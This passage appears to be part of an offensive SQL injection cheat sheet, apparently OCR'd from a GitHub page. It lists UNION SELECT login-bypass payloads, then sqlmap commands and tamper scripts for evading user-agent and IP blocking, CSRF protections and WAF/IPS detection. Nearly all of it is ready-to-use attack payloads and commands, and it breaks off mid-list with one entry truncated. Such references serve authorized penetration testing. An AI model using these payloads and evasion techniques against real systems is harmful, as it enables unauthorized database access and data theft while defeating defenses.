 ```
' UNION SELECT 1, 'admin', 'password'/* 
" UNION SELECT 1, "admin", "password"--
" UNION SELECT 1, "admin", "password"# 
" UNION SELECT 1, "admin", "password"/* 
` UNION SELECT 1, `admin`, `password`-- 
` UNION SELECT 1, `admin`, `password`# 
` UNION SELECT 1, `admin`, `password`/* 
```

**Bypassing defense mechanisms**

 - `sqlmap -r request.txt --random-agent --dbs`  
   User random user agent to overcome UA blocking
 - `sqlmap -r request.txt --csrf-token="csrf-token-parameter-name" --dbs`  
   Read and use CSRF token for each request
 - `sqlmap -r request.txt --randomize="parameter-name-for-random-value" --dbs`  
   Calculate a new random message for each request 
 - `sqlmap -r request.txt --eval="import hashlib; hash_parameter=hashlib.md5(msg).hexdigest()" --dbs`  
   Calculate hash for each request (using Python code)
 - `sqlmap -r request.txt --proxy="socks4://127.0.0.1:9050" --dbs`  
   Use TOR proxy to overcome IP address blocking
 - `sqlmap -r request.txt --chunked --dbs`  
   Send payloads in multiple HTTP packages as chunks to avoid detection
 - `sqlmap -r request.txt --hpp --dbs`  
   Split payloads in multiple instance of the same parameter (e.g.: `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users`)  
   Works only if a target concatinate those like ASP does!
 - `sqlmap -r request.txt --tamper=0eunion,base64encode,between,commalesslimit,equaltolike,halfversionedmorekeywords,modsecurityversioned,modsecurityzeroversioned,percentage,plus2concat,space2comment,space2dash,space2hash,space2mssqlblank,space2plus,space2randomblank,symboliclogical,versionedkeywords,versionedmorekeywords --dbs`  
   Using pre-defined tamper scripts to bypass WAF/IPS solutions:
    - `0eunion`  
      Replaces instances of `UNION` with `e0UNION`
    - `base64encode`  
      Base64-encodes all characters in a given payload
    - `between`  
      Replaces greater than operator (`>`) with `NOT BETWEEN 0 AND #` and equals operator (`=`) with `BETWEEN # AND #`
    - `commalesslimit`  
      Replaces (MySQL) instances like `LIMIT M, N` with `LIMIT N OFFSET M` counterpart
    - `equaltolike`  
      Replaces all occurrences of operator equal (`=`) with `LIKE` counterpart
    - `halfversionedmorekeywords`  
      Adds (MySQL) versioned comment before each keyword
    - `modsecurityversioned`  
      Embraces complete query with (MySQL) versioned comment
    - `modsecurityzeroversioned`  
      Embraces complete query with (MySQL) zero-versioned comment
    - `percentage`  
      Adds a percentage sign (`%`) in front of each character (e.g. `SELECT` -> `%S%E%L%E%C%T`)
    - `plus2concat`  
      Replaces plus operator (`+`) with (MsSQL) function `CONCAT()` counterpart
    - `randomcase`  
      Replaces each keyword character with random case value (e.g. `SELECT` -> `SEleCt`)
    - `space2comment`  
      Replaces space character with comments `/
    - `space2dash`  
      Replaces space character with a dash comment (`--`) followed by a random string and a new line (`\n`)
    - `space2hash`  
      Replaces (MySQL) instances of space character with a pound character (`#`) followed by a random string and a new line (`\n`)